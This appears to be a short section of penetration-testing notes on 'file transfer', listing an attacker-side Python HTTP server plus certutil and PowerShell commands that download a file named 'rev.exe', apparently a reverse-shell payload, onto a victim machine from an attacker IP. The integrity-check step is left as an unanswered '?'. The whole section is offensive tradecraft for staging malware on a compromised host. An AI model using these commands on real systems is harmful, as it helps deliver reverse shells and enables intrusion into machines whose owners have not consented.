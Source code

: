 # 2 file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://$me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```shell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```

- Check integrity after file transfer using

```shell
?
```
